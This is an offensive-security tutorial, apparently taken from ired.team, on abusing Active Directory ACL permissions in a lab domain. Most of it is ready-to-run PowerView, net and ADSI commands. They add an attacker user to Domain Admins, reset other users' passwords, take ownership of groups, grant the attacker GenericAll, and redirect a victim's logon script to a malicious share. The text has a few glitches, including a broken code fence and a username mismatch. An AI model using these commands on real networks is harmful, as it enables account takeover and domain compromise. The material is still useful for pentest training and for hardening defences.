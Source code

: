 Active Directory objects such as users and groups are securable objects and DACL/ACEs define who can read/modify those objects (i.e change account name, reset password, etc).
Some of the Active Directory object permissions and types that we as attackers are interested in:
- **GenericAll** - full rights to the object (add users to a group or reset user's password)
- **GenericWrite** - update object's attributes (i.e logon script)
- **WriteOwner** - change object owner to attacker controlled user take over the object
- **WriteDACL** - modify object's ACEs and give attacker full control right over the object
- **AllExtendedRights** - ability to add user to a group or reset password
- **ForceChangePassword** - ability to change user's password
- **Self (Self-Membership)** - ability to add yourself to a group


## GenericAll on User
Using powerview, let's check if our attacking user `spotless` has `GenericAll rights` on the AD object for the user `delegate`:

```
Get-ObjectAcl -SamAccountName eblack -ResolveGUIDs | ? {$_.ActiveDirectoryRights -eq "GenericAll"}  
```

We can see that indeed our user `spotless` has the `GenericAll` rights, effectively enabling the attacker to take over the account:
![[image 3.avif]]
We can reset user's `delegate` password without knowing the current password:
![[image 13.png]]


## GenericAll on Group
Let's see if `Domain admins` group has any weak permissions. First of, let's get its `distinguishedName`:

```
Get-NetGroup "domain admins" -FullData
```
![[image 4.avif]]
```
 Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local"}
```
We can see that our attacking user `spotless` has `GenericAll` rights once again:
![[image 5.avif]]Effectively, this allows us to add ourselves (the user `spotless`) to the `Domain Admin` group:

```
net group "domain admins" spotless /add /domain
```

## GenericAll / GenericWrite / Write on Computer
If you have these privileges on a Computer object, you can pull #ResourceBasedConstrainedDelegation off.

## WriteProperty on Group
If our controlled user has `WriteProperty` right on `All` objects for `Domain Admin` group:
![[image 6.avif]]

We can again add ourselves to the `Domain Admins` group and escalate privileges:

```
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```


## Self (Self-Membership) on Group
Another privilege that enables the attacker adding themselves to a group:
![[image 7.avif]]```
```
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```

## WriteProperty (Self-Membership)
One more privilege that enables the attacker adding themselves to a group:

```
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
```
![[image 8.avif]]
```
net group "domain admins" spotless /add /domain
```

## ForceChangePassword
If we have `ExtendedRight` on `User-Force-Change-Password` object type, we can reset the user's password without knowing their current password:
```
Get-ObjectAcl -SamAccountName USERNAME -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
```
![[image 14.png]]
Doing the same with powerview:
```
Set-DomainUserPassword -Identity USERNAME -Verbose
```
...or a one liner if no interactive session is not available:
```
Set-DomainUserPassword -Identity USERNAME -AccountPassword (ConvertTo-SecureString 'Kraken123$!' -AsPlainText -Force) -Verbose
```

## WriteOwner on Group
After the ACE enumeration, if we find that a user in our control has `WriteOwner` rights on `ObjectType:All`
```
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
```

![](https://www.ired.team/~gitbook/image?url=https%3A%2F%2F386337598-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-legacy-files%2Fo%2Fassets%252F-LFEMnER3fywgFHoroYn%252F-LQoECV1FDB-H_F_sZZl%252F-LQoEdTkZ0renZwjI4Y7%252FScreenshot%2520from%25202018-11-08%252016-45-42.png%3Falt%3Dmedia%26token%3D976862eb-ca41-4b9d-8c5d-428b1170b89b&width=768&dpr=4&quality=100&sign=1b06d0e2&sv=1)
...we can change the `Domain Admins` object's owner to our user, which in our case is `spotless`. Note that the SID specified with `-Identity` is the SID of the `Domain Admins` group:

```
Set-DomainObjectOwner -Identity S-1-5-21-2552734371-813931464-1050690807-512 -OwnerIdentity "spotless" -Verbose
```

![](https://www.ired.team/~gitbook/image?url=https%3A%2F%2F386337598-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-legacy-files%2Fo%2Fassets%252F-LFEMnER3fywgFHoroYn%252F-LQoECV1FDB-H_F_sZZl%252F-LQoEw6ju4djFcgir36x%252FScreenshot%2520from%25202018-11-08%252016-54-59.png%3Falt%3Dmedia%26token%3D30f0e2f9-fbdb-4194-8c19-3b00f1ee6648&width=768&dpr=4&quality=100&sign=3f29d387&sv=1)

## GenericWrite on User

```
Get-ObjectAcl -ResolveGUIDs -SamAccountName delegate | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
```

![](https://www.ired.team/~gitbook/image?url=https%3A%2F%2F386337598-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-legacy-files%2Fo%2Fassets%252F-LFEMnER3fywgFHoroYn%252F-LQohCREBZ7Ian7G7pfx%252F-LQojJ2fBHF5Sd_kfc3V%252FScreenshot%2520from%25202018-11-08%252019-12-04.png%3Falt%3Dmedia%26token%3Da03e9724-1d4c-4616-b02f-b318e8ba374c&width=768&dpr=4&quality=100&sign=e436ed0d&sv=1)

`WriteProperty` on an `ObjectType`, which in this particular case is `Script-Path`, allows the attacker to overwrite the logon script path of the `delegate` user, which means that the next time, when the user `delegate` logs on, their system will execute our malicious script:

```
Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.ps1"
```

## WriteDACL + WriteOwner

If you are the owner of a group, like I'm the owner of a `Test` AD group:
```
([ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local").PSBase.get_ObjectSecurity().GetOwner([System.Security.Principal.NTAccount]).Value
```
![[image 15.png]]
And you have a `WriteDACL` on that AD object:
```
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=test,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
```
...you can give yourself [`GenericAll`](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces#genericall-on-group) privileges with a sprinkle of ADSI sorcery:
```
$ADSI = [ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local"
$IdentityReference = (New-Object System.Security.Principal.NTAccount("spotless")).Translate([System.Security.Principal.SecurityIdentifier])
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference,"GenericAll","Allow"
$ADSI.psbase.ObjectSecurity.SetAccessRule($ACE)
$ADSI.psbase.commitchanges()
```

Which means you now fully control the AD object:
![[image 9.avif]]This effectively means that you can now add new users to the group.

